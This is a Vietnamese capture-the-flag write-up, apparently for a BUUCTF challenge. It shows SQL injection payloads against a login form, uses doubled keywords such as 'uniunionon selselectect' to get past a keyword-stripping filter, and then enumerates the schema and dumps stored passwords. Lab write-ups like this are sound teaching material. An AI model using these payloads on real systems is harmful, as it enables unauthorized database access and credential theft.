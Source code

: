 [image](https://github.com/Llam-a/BUUCTF/assets/115911041/7374a48a-8fb4-4505-82ac-ef5473117bf1)

Ta có form challenge. Mình sẽ thử inject cơ bản 

`user: 1' or 1=1-- -
pass: 1' or 1=1-- -`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/a1fdb887-10a1-48d8-bb17-ca4c3d2b11df)

Nếu các bạn thấy output chỗ pass đã đổi `or` thành null là do hàm `preg_repalce()` hoặc hàm tương tự. Sau đó mình có test với `union,where và select` đều bị thay thế. Nên ta sẽ làm cho sau khi xóa chữ or thì nó sẽ trở thành or, tương tự như select, where và union.

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/15017af1-56d2-4dad-b4cd-e3e0b009bf60)

Ta có kết quả

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/07fd59ab-b30e-46f3-9398-437fdacaca14)

Và giờ ta sẽ check cột `admin' anandd 1=2 uniunionon selselectect 1,2,3-- -`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/799672a3-552a-4dda-a180-6315eebe097a)

Vậy là có lỗi ở cột 2 và 3. Tiếp tục khac thác database, table, column, data.

`admin' anandd 1=2 uniunionon selselectect 1,2,database()-- -`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/f5f1fc0c-200f-4419-99c9-ca9834afe11c)

`admin' uunionnion sselectelect 1,2,group_concat(table_name) ffromrom infoorrmation_schema.tables wwherehere table_schema=database()-- -`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/60af18c6-3c6c-4b63-a33f-374a275205b6)

Ta có 2 table. Mình sẽ xem table của `b4bsql`

`admin' uunionnion sselectelect 1,2,group_concat(column_name) ffromrom infoorrmation_schema.columns wwherehere table_name='b4bsql'-- -`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/ed6fb617-f2f0-425a-94e3-abdac6b5392b)

Kết quả cho ra 3 cột. Ta xem data trong password

`admin' uunionnion sselectelecte 1,2,group_concat(passwoorrd) ffromrom b4bsql-- -`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/4153ea2d-8753-4ec6-8287-0e74dcfafd90)

